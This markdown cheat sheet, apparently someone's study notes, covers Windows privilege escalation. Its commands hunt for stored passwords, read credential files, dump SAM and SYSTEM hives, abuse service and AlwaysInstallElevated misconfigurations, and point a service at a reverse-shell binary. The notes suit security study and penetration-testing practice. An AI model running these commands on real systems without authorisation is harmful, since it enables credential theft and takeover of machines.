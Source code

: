 # Looking for Passwords:
## unattended Windows Installations:
	+ C:\Unattend.xml
	+ C:\Windows\Panther\Unattend.xml
	+ C:\Windows\Panther\Unattend\Unattend.xml
	+ C:\Windows\system32\sysprep.inf
	+ C:\Windows\system32\sysprep\sysprep.xml
## Powershell History:
```ps1
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## Stored Creds:
```ps1
# list the sotred credentials
cmdkey /list
# run command as another user:
runas /savecred /user:admin cmd.exe
```
## IIS Configurations:
```ps1
# looking for "web.config"
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
# quickly find database Creds:
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## Retrieve Creds from "PuTTy"
```ps1
reg query HKEY_CURRENT_USER\Software\<creatorOFputty>\PuTTY\Sessions\ /f "Proxy" /s
```


# Scheduled Tasks:
```ps1
# list of Scheduled Tasks:
schtasks
# for more details on specific task:
schtasks /query /tn vulntask /fo list /v
# check permissions on its binary:
icacls c:\Path\to\executableFile
get-acl c:\Path\to\executableFile
```
# Always Install Elevated:
+ check registry:
	+ C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
	+ C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer	
+ install package from commandLine:
	+ C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi


# Services:
Windows services are managed by the **Service Control Manager (SCM)**. The SCM is a process in charge of **managing the state of services** as needed, checking the current status of any given service and generally providing a way to configure services.

### + check Insecure Permissions on Service Executable
	query on service to get information:
	```ps1
	# look for BINARY_PATH_NAME & SERVICE_START_NAME and check Binary for overwriting it
	C:\> sc qc apphostsvc
	# start & stop a service
	C:\> sc stop windowsscheduler
	C:\> sc start windowsscheduler
	```
	
### + Insecure Service Permissions: 	
there is a chance even if binary is well protected on DACL. we should check service DACL(not binary DACL)
```ps1
# check for service reconfiguration
accesschk64.exe -qlc VULNservice
# reconfigure the service to point to our executable. 
sc config VULNservice binPath= "C:\PATH\TO\reverseSHELL.exe" obj= LocalSystem
```

### + Unquoted Service Paths:
```ps1
# query the service and see if the executable path is unquoted (BINARY_PATH_NAME)
C:\> sc qc "vncserver"
```

### You can look for Services in Registry:
	 HKLM\SYSTEM\CurrentControlSet\Services\	
	
### + Know that: 
Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service,


# Dangerous Tokens
find all the windows tokens with their meanings [Here](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants), find more about hot to exploit it [here](https://github.com/gtworek/Priv2Admin)

## SeBackup / SeRestore:
The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. attacker can copy the SAM and SYSTEM registry hives to extract the local Administrator's password hash.
- backup SAM and SYSTEM hashes:
	```ps1
	reg save hklm\system C:\anywhere\system.hive
	reg save hklm\sam C:\anywhere\sam.hive
	```


## SeTakeOwnership:	
The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys. search for a service running as SYSTEM and take ownership of the service's executable.Notice that being the owner of a file doesn't necessarily mean that you have privileges over it, but being the owner you can assign yourself any privileges you need
```ps1
# take the executable ownership whit this:
takeown /f C:\Windows\System32\SomeThing.exe
# give your user full permissions, After this, we will replace the Binary:
icacls C:\Windows\System32\SomeThing.exe /grant <Username>:F
```

## SeImpersonate / SeAssignPrimaryToken:
lets keep it short:)))). use this binaries to get systemSHELL:
- RoguePotato.exe
- juicyPotato.exe
- PrintSpoofer.exe

# Vulnerable Softwares
## Unpatched Software:
Software installed on the target system can present various privilege escalation opportunities. check for installed softwares and versions:
Remember that the wmic product command may not return all installed programs.It is always worth checking desktop shortcuts, available services or generally any trace that indicates the existence of additional software that might be vulnerable.
```ps1
wmic product get name,version,vendor
```
	
